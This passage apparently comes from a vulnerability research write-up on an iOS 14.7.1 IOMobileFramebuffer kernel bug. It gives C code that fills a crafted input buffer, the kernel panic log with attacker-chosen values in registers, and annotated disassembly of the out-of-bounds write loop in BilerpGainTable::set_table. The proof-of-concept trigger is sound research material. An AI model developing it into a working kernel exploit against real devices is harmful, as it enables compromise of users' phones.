 ```c
    memset(input, 0x41, input_size);
    int *pArr = (int*)input;

    pArr[0] = 0x3;          // sub-sub selector
    pArr[1] = 0xffffffff;   // has to be non-zero
    pArr[2] = 0x10008;
    pArr[3] = 0x424242;
    pArr[8] = 0x434343;
    pArr[89] = 0x10008;
```

And the panic:

```
  "build" : "iPhone OS 14.7.1 (18G82)",
  "product" : "iPhone10,3",
...
  "panicString" : "panic(cpu 5 caller 0xfffffff02585b2d4): Kernel data abort. at pc 0xfffffff025d3c270, lr 0xfffffff025d3c1b8 (saved state: 0xffffffe816513110)
	  x0: 0xffffffe4cc8dfcc0  x1:  0x0000000000000010  x2:  0xffffffe4cd012e00  x3:  0x0000000000424242
	  x4: 0xffffffe8165132c0  x5:  0xffffffe8165132bc  x6:  0x0000000000000001  x7:  0x0000000000000009
	  x8: 0xffffffe904720300  x9:  0x000000000000af80  x10: 0xffffffe9047a4000  x11: 0xffffffe4cd0c2608
	  x12: 0x0000000063736944 x13: 0x00000000ffdfffff  x14: 0xffffffe8044e8000  x15: 0xaaaaaaaaaaaaaaab
	  x16: 0x0000002000000000 x17: 0xfffffff026b09940  x18: 0xfffffff025849000  x19: 0xffffffe4cc8dfcc0
	  x20: 0x0000000000424242 x21: 0xffffffe4cd012e00  x22: 0x0000000000000010  x23: 0x0000000000100040
	  x24: 0x000000000000000c x25: 0x0000000000010008  x26: 0xffffffe816513638  x27: 0xffffffe4cd0f38d4
	  x28: 0xffffffe199edd478 fp:  0xffffffe8165134a0  lr:  0xfffffff025d3c1b8  sp:  0xffffffe816513460
	  pc:  0xfffffff025d3c270 cpsr: 0x80400204         esr: 0x96000047          far: 0xffffffe9047a4000
...
Kernel slide:      0x000000001d758000
Kernel text base:  0xfffffff02475c000
```

Oh, new instruction! Actually, not that far from the one in our last panic. We crash in a loop (in *IOMFB::TableCompensator::BilerpGainTable::set_table*). The address is 0xfffffff025d3c270-0x000000001d758000=0xfffffff0085e4270. The loop is as follows (from iPhone X, iOS 14.7.1):

```
FFFFFFF0085E4264
FFFFFFF0085E4264 loop
FFFFFFF0085E4264 LDUR            W12, [X11,#-8]
FFFFFFF0085E4268 STR             W12, [X8,X9,LSL#2]
FFFFFFF0085E426C LDUR            W12, [X11,#-4]
FFFFFFF0085E4270 STR             W12, [X10]           <-- panic here
FFFFFFF0085E4274 LDR             W12, [X11]
FFFFFFF0085E4278 STR             W12, [X10,#4]
FFFFFFF0085E427C LDR             W12, [X11,#4]
FFFFFFF0085E4280 STR             W12, [X10,#8]
FFFFFFF0085E4284 ADD             X9, X9, #1           <-- inc index
FFFFFFF0085E4288 LDR             W12, [X0,#0x20]
FFFFFFF0085E428C ADD             X11, X11, #0x10
FFFFFFF0085E4290 ADD             X10, X10, #0xC
FFFFFFF0085E4294 CMP             X9, X12              <-- cmp index to cnt
FFFFFFF0085E4298 B.CC            loop
```
